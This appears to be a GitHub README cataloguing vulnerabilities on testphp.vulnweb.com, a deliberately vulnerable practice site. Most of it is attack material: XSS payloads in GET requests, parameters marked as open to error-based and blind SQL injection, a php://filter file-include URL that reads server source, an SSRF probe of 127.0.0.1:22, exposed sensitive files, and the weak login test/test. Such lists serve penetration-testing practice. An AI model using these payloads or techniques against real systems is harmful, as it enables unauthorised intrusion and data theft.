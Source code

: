 # Testphp_vulns
Collect all vulns and infomations in http://testphp.vulnweb.com/

## Sensitive Files

    http://testphp.vulnweb.com/index.zip
    http://testphp.vulnweb.com/.idea/workspace.xml
    http://testphp.vulnweb.com/admin/
    http://testphp.vulnweb.com/Mod_Rewrite_Shop/.htaccess
    http://testphp.vulnweb.com/crossdomain.xml
    http://testphp.vulnweb.com/CVS/Root
    http://testphp.vulnweb.com/secured/phpinfo.php
    http://testphp.vulnweb.com/_mmServerScripts/mysql.php
    

## Directory Index

    http://testphp.vulnweb.com/Flash/
    http://testphp.vulnweb.com/CVS/
    http://testphp.vulnweb.com/.idea/
  
## Infomation disclosure
  
    wvs@acunetix.com
    test@gmail.com
    http://127.0.0.1
    wasp@acunetix.com
  
## XSS
  
    POST http://testphp.vulnweb.com/search.php 'searchFor'
    POST http://testphp.vulnweb.com/guestbook.php 'name'
    POST http://testphp.vulnweb.com/secured/newuser.php 'uuname'
    GET http://testphp.vulnweb.com/listproducts.php?cat=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    GET http://testphp.vulnweb.com/listproducts.php?artist=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    GET http://testphp.vulnweb.com/hpp/?pp=%22%3E%3CIMG%20sRC=X%20onerror=jaVaScRipT:alert`xss`%3E
    GET http://testphp.vulnweb.com/hpp/params.php?p=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
    
## SQL Inject

    POST http://testphp.vulnweb.com/secured/newuser.php 'uuname' error SQLi vulnerable
    POST http://testphp.vulnweb.com/userinfo.php 'uname' blind SQLi vulnerable
    GET http://testphp.vulnweb.com/artists.php 'artist' error SQLi vulnerable
    GET http://testphp.vulnweb.com/listproducts.php 'cat' error SQLi vulnerable
    GET http://testphp.vulnweb.com/listproducts.php 'artist' error SQLi vulnerable
    GET http://testphp.vulnweb.com/product.php 'pic' error SQLi vulnerable
    GET http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php 'id' SQLi vulnerable
    GET http://testphp.vulnweb.com/AJAX/infocateg.php 'id' SQLi vulnerable
    
## File Include

    http://testphp.vulnweb.com/showimage.php?file=showimage.php
    http://testphp.vulnweb.com/showimage.php?file=php://filter/convert.base64-encode/resource=showimage.php
    
## SSRF

    http://testphp.vulnweb.com/showimage.php?file=http://127.0.0.1:22

## CLRF

## Weak Pass

    test/test
